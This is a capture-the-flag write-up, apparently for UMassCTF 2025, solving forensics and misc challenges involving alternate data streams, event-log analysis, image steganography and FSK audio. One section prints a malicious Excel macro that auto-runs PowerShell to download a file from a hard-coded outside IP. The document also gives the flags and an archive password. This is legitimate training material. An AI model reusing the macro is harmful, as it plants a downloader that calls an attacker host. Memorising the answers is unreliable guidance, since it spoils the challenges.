


# Writeup entry-level Forensic

## Table of Contents

### Forensics
1. [Alternating](#alternating)
2. [BBBBBBBBBB](#bbbbbbbbbbb)
3. [basic-coms](#basic-coms)

---

### Alternating

### Description
> We have hidden something in the file and I'm sure you won't find it. Make sure to extract the archive using WinRar. Windows is your friend.

`Flag.rar`

---

### Solution

After extracting `Flag.rar` using WinRAR as instructed, we found a seemingly empty file named **Flag.txt.txt**.
Suspecting the use of NFTS [Alternate Data Streams](https://owasp.org/www-community/attacks/Windows_alternate_data_stream) (ADS), we used the following command in Windows CMD to inspect hidden streams:

```bash
dir /r
```


This revealed an ADS: `Flag.txt.txt:real_flag.txt:$DATA`

To access the hidden content, used this command:

```bash
more < Flag.txt.txt:real_flag.txt
```

This will displayed the hidden content, which is the flag.



The flag: **ctf{7ce5567830a2f9f8ce8a7e39856adfe5208242f6bce01ca9af1a230637d65a2d}**

### BBBBBBBBBB

### Desciption
> BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB

`chall-zip-in-zip.zip`


### Solution

Once I extracted the zip (password was `23ab3Y9/JjK1` btw), I found two files:

`dropper.xlsm`
`flash.evtx`

Time to see what evil the Excel file had. I used `olevba` to extract the VBA macro:

```bash
olevba dropper.xlsm
```

The macro was super short:

```bash
Private Sub Workbook_Open()
    Dim cmd As String
    cmd = "powershell.exe -Command ""Invoke-WebRequest -Uri 'http://34.138.121.94:8000/stage1.txt' -OutFile $env:TEMP\stage1.txt"""
    Shell cmd
End Sub
```

So basically, the macro tries to download `stage1.txt` into the TEMP folder using PowerShell.

But here's the twist: `stage1.txt` isn’t given in the challenge. It’s missing. Gone. Wiped. So where do I look to find out what `stage1.txt` actually did?

Answer: the logs.

That’s when `flash.evtx` became the prime suspect.

To investigate, I converted the `flash.evtx` to a readable format:

!Info!

Do this first:

```bash
git clone https://github.com/williballenthin/python-evtx
cd python-evtx
```

Then I dumped the logs:

```bash
python3 scripts/evtx_dump.py ../flash.evtx > flash.xml
```

At this point, I was basically going through logs like a cyber detective lol.

I started hunting for any signs of the macro's behavior stuff like `powershell`, `stage1.txt`, or any **flaggy** stuff.

Lastly, I found something by run this grep:

```bash
grep -i "scriptblocktext" flash.xml
```

```bash
<Data Name="ScriptBlockText">write-output 'health check 28 OK - 04/18/1996 13:00:05'</Data>
<Data Name="ScriptBlockText">write-output 'health check 29 OK - 04/18/1996 13:00:05'</Data>
<Data Name="ScriptBlockText">prompt</Data>
<Data Name="ScriptBlockText">$e= "VU1BU1N7ZHJvcF9pdF9saWtlX2l0c19ob3R9"</Data>
<Data Name="ScriptBlockText">prompt</Data>
<Data Name="ScriptBlockText">1..50 | foreach-object{
<Data Name="ScriptBlockText">{
<Data Name="ScriptBlockText">{[char]$_}</Data>
<Data Name="ScriptBlockText">write-output 'suspiciouscommand_JgiXZwLrvO'</Data>
```

That's a base64-encoded value. Probably a flag.

So I decode the value and yeah it's a flag

```bash
echo VU1BU1N7ZHJvcF9pdF9saWtlX2l0c19ob3R9 | base64 -d
```

Flag: **UMASS{drop_it_like_its_hot}**

---

## Misc

### Odd One Out

### Description
> I forgot to organize my encrypted flags for this challenge! Can you find the odd one out? I could have sworn it was a different color...

<details>
  <summary>View Hint</summary>
Not all solvers will work on this. If you get stuck, try a different way!
</details>

<details>
  <summary>View Hint</summary>
The oddoneout challenge is multilayer! You'll know you have the right one if it looks like a real word.
</details>

[OddOneOut.png](misc/oddoneout)


### Solution

Just to tell you guys that, I solved this chall for 5-6 hours. It was super easy chall actually. I wasted my times for a script that extract each of QR codes like 4x4 or 8x8. I don't remember. Also I checked 1 by 1 of the extracted QR codes lol. This chall trolls me so hard.

So, what I did is, first thing I ran `zsteg`

I got this:

```bash
┌──(kali㉿kali)-[~/UMassCTF2025/misc/Odd One Out]
└─$ zsteg OddOneOut.png 
b1,b,msb,xy         .. file: MIPSEL ECOFF executable not stripped - version 105.35
b1,rgb,lsb,xy       .. text: "Man I REALLY like squares. I think cubes are cool too. QR codes are truly the pinnacle of modern data encoding.\n\nAlso, while you're rooting around in here, I'm taking a poll: did you ever play coolmath games as a kid?\n\nIf you did: great! I hope you played "
b1,bgr,msb,xy       .. file: OpenPGP Public Key
b2,g,lsb,xy         .. file: Encore unsupported executable not stripped
b3,r,msb,xy         .. file: Applesoft BASIC program data, first line number 146
b3,bgr,lsb,xy       .. file: gfxboot compiled html help file
b4,b,lsb,xy         .. file: Targa image data - Map 1 x 4353 x 16 +257 "\001\021\020"
b4,rgb,lsb,xy       .. file: Targa image data 4096 x 65536 x 1 +4097 +4113 "\020\001"
b4,bgr,lsb,xy       .. file: PDP-11 UNIX/RT ldp
```

Then I use [aperisolve](https://www.aperisolve.com/): 


I looked at the common passwords which is **UMASS{{rcckuizufzxhznod}}** and **Bloxorz**.

Basically **Bloxorz** is a game on coolmath games and it's a key for a cipher which is Vigenere cipher.

Lastly, just decode it.


Flag: **UMASS{qrongratulations}**

---

### Tower Signal

### Description
> A glitched tower is still transmitting bursts of scrambled config data through its last known soundtrack. The signal isn’t digital — it’s modulated. Different baud rates. One forgotten directive.

<details>
  <summary>View Hint</summary>
The flag data that you get from the signals is missing a closing curly brace. Make sure to add it in when you submit the flag!
</details>

[last_output.wav](misc/towersignal)


### Solution

I ran `exiftool`:

```bash
┌──(kali㉿kali)-[~/UMassCTF2025/misc/Tower Signal]
└─$ exiftool last_output.wav                        
ExifTool Version Number         : 13.10
File Name                       : last_output.wav
Directory                       : .
File Size                       : 38 MB
File Modification Date/Time     : 2025:04:18 15:19:25-04:00
File Access Date/Time           : 2025:04:18 15:19:46-04:00
File Inode Change Date/Time     : 2025:04:18 15:19:43-04:00
File Permissions                : -rw-rw-r--
File Type                       : WAV
File Type Extension             : wav
MIME Type                       : audio/x-wav
Encoding                        : Microsoft PCM
Num Channels                    : 2
Sample Rate                     : 48000
Avg Bytes Per Sec               : 192000
Bits Per Sample                 : 16
Comment                         : Try 100 > 50 > 30
Software                        : Lavf59.27.100
Duration                        : 0:03:20
```

The comment - **Try 100 > 50 > 30**

Then, I opened the audio in Audacity, switched to spectrogram view, and noticed discrete bursts of FSK-modulated audio signals.


Next step, I extracting the burst manually like this (select 3 bursts):


Go to File > Export Audio > Current Selection and export as `part1.wav`, `part2.wav`, `part3.wav`.

Then I Converted each to mono using `ffmpeg` (required for minimodem):

```bash
ffmpeg -i part1.wav -ac 1 mono1.wav
ffmpeg -i part2.wav -ac 1 mono2.wav
ffmpeg -i part3.wav -ac 1 mono3.wav
```


Next, decoding using baud rates in descending order (as per hint):

```bash
minimodem --rx -f mono1.wav 100
minimodem --rx -f mono1.wav 50
minimodem --rx -f mono1.wav 30

minimodem --rx -f mono2.wav 100
minimodem --rx -f mono2.wav 50
minimodem --rx -f mono2.wav 30

minimodem --rx -f mono3.wav 100
minimodem --rx -f mono3.wav 50
minimodem --rx -f mono3.wav 30
```

This is the output from those extraction:

**mono1.wav**:

```bash
### CARRIER 100 @ 1250.0 Hz ###
VEFHXzA1ID0gWlhKZmFBbz0KVEFHXzAyID0gWVhOb1h3bz0KVEFHXzAwID0gVlUxQlV3bz0KVEFH
```

**mono2.wav**:

```bash
### CARRIER 50.00 @ 1590.0 Hz ###
XzA0ID0gWDNSdmR3bz0KVEFHXzAxID0gVTN0bWJBbz0KVEFHXzA2ID0gWlhKMGVnbz0KVEFHXzAz
```

**mono3.wav**:

```bash
### CARRIER 30.00 @ 1590.0 Hz ###
ID0gWVhOdGNnbz0K
```

---

It is a `base64` encoded value. Decode that from `base64`.

**mono1.wav**:

```bash
TAG_05 = ZXJfaAo=
TAG_02 = YXNoXwo=
TAG_00 = VU1BUwo=
TAG
```

**mono2.wav**:

```bash
_04 = X3Rvdwo=
TAG_01 = U3tmbAo=
TAG_06 = ZXJ0ego=
TAG_03
```

**mono3.wav**:

```bash
### CARRIER 30.00 @ 1590.0 Hz ###
 = YXNtcgo=
```

---

To simplify, this is the rearranged:

```bash
TAG_05 = ZXJfaAo=
TAG_02 = YXNoXwo=
TAG_00 = VU1BUwo=
TAG_04 = X3Rvdwo=
TAG_01 = U3tmbAo=
TAG_06 = ZXJ0ego=
TAG_03 = YXNtcgo=
```

Then, decode it again from `base64` for each tag:

```bash
TAG_05 = er_h
TAG_02 = ash_
TAG_00 = UMAS
TAG_04 = _tow
TAG_01 = S{fl
TAG_06 = ertz
TAG_03 = asmr
```

Lastly, just rearrange following the order.

Flag: **UMASS{flash_asmr_tower_hertz}**


